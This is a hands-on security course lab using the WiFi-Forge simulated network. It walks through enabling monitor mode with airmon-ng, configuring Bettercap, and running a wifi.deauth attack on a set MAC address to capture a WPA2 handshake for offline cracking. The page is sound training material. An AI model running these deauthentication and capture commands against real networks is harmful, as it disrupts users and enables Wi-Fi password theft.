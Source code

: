 # OPTIONAL Lab - WiFi-Forge

!!! warning
    WiFi-Forge is under **active development** (AKA - this Lab may have issues) by the good folks at Black Hills Information Security. They are seeking feedback on the tool and welcome the submission of any issues on the [main GitHub page](https://github.com/blackhillsinfosec/Wifi-Forge/issues).

    A forked version can be found at [https://github.com/ridgebackinfosec/Wifi-Forge](https://github.com/ridgebackinfosec/Wifi-Forge) which should work with this Lab.

!!! warning
    Wifi-Forge can take up a lot of space on a VM and can create unpredicatable consequences between dependencies. It is recommended that you either create a new VM from The Forge base image or snapshot your class VM ***before*** installing Wifi-Forge.

!!! note
    This and many more WiFi-Forge Labs are available at [https://wififorge.github.io/](https://wififorge.github.io/). 
    
    Follow the install steps from the slides or [here](https://wififorge.github.io/Installation/Installation) before working on this Lab.

In this lab, we will familiarize ourselves with Bettercap, a common wireless auditing tool.

## Getting Started with Bettercap

```bash
cd ~/Wifi-Forge/Framework
sudo python3 WifiForge.py
```

Select **Bettercap Recon** from the menu. Allow up to 30 seconds to initialize the network.

![Bettercap Recon](img/main-menu.png){ width="70%" }
///caption
Menu
///

!!! note
    Normally, when using Bettercap with physical network cards, it is necessary to use `airmon-ng check kill` to terminate processes that may interfere. However, running this command in the mininet-wifi network is unnecessary and may cause failures.

Start by putting the interface `a-wlan0` in monitor mode:

```bash
airmon-ng start Attacker-wlan0
```

If prompted, input **y** and hit enter.

![Prompt](img/prompts.png){ width="70%" }

Successful initialization will appear as shown below:

![Initialization Success](img/init-success.png){ width="70%" }

Verify that the interface has been put into monitor mode:

```bash
ifconfig | grep flags
```

The interface `a-wlan0mon` should now be present:

![Monitor Mode Active](img/monitor-mode.png){ width="70%" }

## Launching Bettercap

Run the following command to start Bettercap with the interface in monitor mode:

```bash
bettercap -iface a-wlan0mon
```

You will be greeted by a prompt displaying the network interface name:

![Bettercap Interface](img/interface.png){ width="70%" }

The following commands configure the console for a more understandable workflow to view the de-authentication attack:

```bash
set wifi.show.sort clients desc
set ticker.commands 'clear; wifi.show'
ticker on
set wifi.show.sort clients desc
```

After running these commands, you should see the following on your screen:

![Bettercap Console](img/console.png){ width="70%" }

Disable console logging using:

```bash
events.stream off
```

## Capturing Handshakes

Set the handshakes file and enable the `wifi.recon` module:

```bash
set wifi.handshakes.file ./loot/4whs
wifi.recon on
```

Force the interface to operate only on channel 6:

```bash
wifi.recon.channel 6
```

Start the de-authentication attack:

```bash
wifi.deauth 76:df:71:67:40:2b
```

It may take a few seconds, but Bettercap will catch the handshake:

![Handshake Captured](img/handshake.png){ width="70%" }

A handshake is an encrypted WPA2 password intercepted between the client and router, which can be decrypted offline.

Your final packet count may differ from the screenshot.